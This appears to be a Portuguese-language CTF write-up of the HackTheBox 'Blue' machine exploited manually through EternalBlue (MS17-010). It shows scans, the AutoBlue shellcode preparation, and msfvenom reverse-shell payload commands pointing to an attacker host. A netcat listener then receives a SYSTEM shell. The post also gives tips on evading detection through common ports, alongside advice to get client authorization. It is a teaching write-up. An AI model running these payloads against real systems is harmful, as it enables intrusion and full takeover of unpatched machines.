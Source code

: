 ```yaml
---
layout: post
title: "[CTF]-[HACKTHEBOX]-[EASY]- BLUE"
date: 2023-01-10
excerpt: "Machine: Support - [hackthebox.com](https://www.hackthebox.com)"
tags: [ctf, htb, windows, eternal blue, manual exploit, exploit, python, venv]
---
```


# Intro

Eu sei, eu sei. Máquina Blue, famigerado shell de 3 minutos utilizando o metasploit, mas aqui vamos separar o joio do trigo utilizando um exploit manual e entender um pouco melhor o processo e impacto de uma vulnerabilidade tão crítica.

# Recon

Easy peasy, nmap de lei, enumerar as portas e nada de serviços web. Sabemos que é um host windows e smb ativo, é o primeiro passo para tentar um acesso inicial ou um acesso completo!

```nmap
Starting Nmap 7.92 ( https://nmap.org ) at 2023-01-08 18:57 EST
Nmap scan report for 10.129.138.157
Host is up (0.077s latency).
Not shown: 991 closed tcp ports (reset)
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  msrpc        Microsoft Windows RPC
Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 62.88 seconds
```

Só smb + rpc, nenhuma outra entrada, Windows 7, nome da máquina é Blue. Já sabemos que vamos abusar da vulnerabilidade do Eternal Blue, então vamos tentar detectar se a máquina está vulneravel.

Pode-se utilizar o nmap para validar utilizando o script **/usr/share/nmap/scripts/smb-vuln-ms17-010.nse**, o próprio metasploit (**auxiliary/scanner/smb/smb_ms17_010**) ou o repositório do [AutoBlue](https://github.com/3ndG4me/AutoBlue-MS17-010) caso esteja se preparando pra uma exploração manual (DCPT/OSCP).

nmap:
```nmap_scan
└─# nmap -p 445 --script=smb-vuln-ms17* 10.129.138.157
Starting Nmap 7.92 ( https://nmap.org ) at 2023-01-12 13:58 EST
Nmap scan report for 10.129.138.157
Host is up (0.043s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|_      https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/

Nmap done: 1 IP address (1 host up) scanned in 2.17 seconds

```

metasploit:
```metasploit
msf6 auxiliary(scanner/smb/smb_ms17_010) > run

[+] 10.129.138.157:445    - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.129.138.157:445    - Scanned 1 of 1 hosts (100% complete)
```

eternal_checker.py:
```eternal_chequer.py
└─# python3 eternal_checker.py 10.129.138.157                          
[*] Target OS: Windows 7 Professional 7601 Service Pack 1
[!] The target is not patched
=== Testing named pipes ===
[*] Don
```

## Tá, mas e ae?
É isso? Fim de jogo? **yep**. 

Na **minha** perspectiva, aqui a real exploração do alvo só será feita após atutorização do cliente. Quem possui assets vulneraveis ao **EternalBlue** com certeza possui software legado, não utiliza comunicação TLS, há limitações de patchs para não quebrar o negócio e **COM CERTEZA** seu payload vai ocasionar uma **blue screen of death**. O asset final pode ser mesmo um servidor de arquivos, mas em casos reais pode ser também um equipamento critico de um hospital/fábrica, portanto o melhor comportamento como profissional é perguntar se pode-se prosseguir com a exploração ou só o fato se ser vulnerável já é o suficiente.

Nossa atividade é exatamente para identificar as falhas e posteriormente os times responsáveis corrigirem. Se existe a possibilidade se evitarmos um incidente crítico no ambiente, por que não perguntar e solicitar autorização? Eu que não quero estar em war room quando for pra acompanhar esse Disaster Recovery :)

Como é CTF, claro que estamos autorizados!

# Tá autorizado, desce a lenha.

Metasploit 3 minutos e blablabla, esquece isso e vamos explorar manualmente.

Como estamos lidando com um exploit que pode precisar de dependências, eu gosto de utilizar virtualização/containers para executar.  Cito como exemplo o Python + Impackt libs, as diferentes versões do Impackt **SEMPRE** vão causar conflito ou algum bug durante execução. No caso, vou utilizar um exploit em Python e o VENV para virtualizar o ambiente.  Estarei utilizando o exploit do [AutoBlue](https://github.com/3ndG4me/AutoBlue-MS17-010), mas há tantos outros no Github.

Preparando o ambiente VENV:
```VENV
python3 -m pip install virtualenv
mkdir blue && cd blue
python3 -m venv env && source env/bin/activate
python3 -m pip list
```

Nenhuma dependencia instalada (pip list), vamos utilizar o `python3 -m pip install -r requirements.txt` e pronto, podemos isoladamente utilizar o exploit sem ter conflito de dependências com as bibliotecas da máquina.

![Python VENV](/img_posts/ctf/htb/easy/blue/ctf-htb-blue-1.png)

Para preparar o payload, aqui há informações importantes.
- Se atentar a arquitetura do alvo, pode ser **x64** ou **x86**, importante ter isso em mente quando gerar o payload.
- Saber a diferença de um shellcode **stage** e **stageless**. Normalmente o stage vai ocasionar em bluescreen.
- Meterpreter? Não recomendo pois pode ser facilmente identificado por AV/EDR. Utilize como primeira opção o **reverse_tcp**, depois vá para as outras alternativas.
- Utilizei portas altas para a exploração, mas em cenários reais utilize portas comuns para ser **stealth** para a maioria dos controles de segurança, como 443/HTTPS, 8080/TOMCAT ou 9200/ELASTICSEARCH.

```shell_prep
┌──(env)─(root💀kali)-[/home/…/htb/blue/AutoBlue-MS17-010/shellcode]
└─# ./shell_prep.sh                                                                                           130 ⨯
                 _.-;;-._
          '-..-'|   ||   |
          '-..-'|_.-;;-._|
          '-..-'|   ||   |
          '-..-'|_.-''-._|   
Eternal Blue Windows Shellcode Compiler

Let's compile them windoos shellcodezzz

Compiling x64 kernel shellcode
Compiling x86 kernel shellcode
kernel shellcode compiled, would you like to auto generate a reverse shell with msfvenom? (Y/n)
y
LHOST for reverse connection:
10.10.14.118
LPORT you want x64 to listen on:
4444
LPORT you want x86 to listen on:
5555
Type 0 to generate a meterpreter shell or 1 to generate a regular cmd shell
1
Type 0 to generate a staged payload or 1 to generate a stageless payload
1
Generating x64 cmd shell (stageless)...
msfvenom -p windows/x64/shell_reverse_tcp -f raw -o sc_x64_msf.bin EXITFUNC=thread LHOST=10.10.14.118 LPORT=4444
Saved as: sc_x64_msf.bin

Generating x86 cmd shell (stageless)...
msfvenom -p windows/shell_reverse_tcp -f raw -o sc_x86_msf.bin EXITFUNC=thread LHOST=10.10.14.118 LPORT=5555
Saved as: sc_x86_msf.bin

MERGING SHELLCODE WOOOO!!!
DONE

```

Sem segredo, abrir um listener com netcat na porta da arquitetura identificada na fase de recon e executar o exploit com: `python3 eternalblue_exploit7.py 10.129.138.157 shellcode/sc_x64.bin`
```
┌──(root💀kali)-[/home/kali]
└─# nc -nlvp 4444                                                                                               1 ⨯
listening on [any] 4444 ...
connect to [10.10.14.118] from (UNKNOWN) [10.129.138.157] 49158
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

Como temos uma shell com **NT/SYSTEM**, não é necessário escalar privilégios, só pegar as flags de user e root.

# Mitigação
- patch your shit!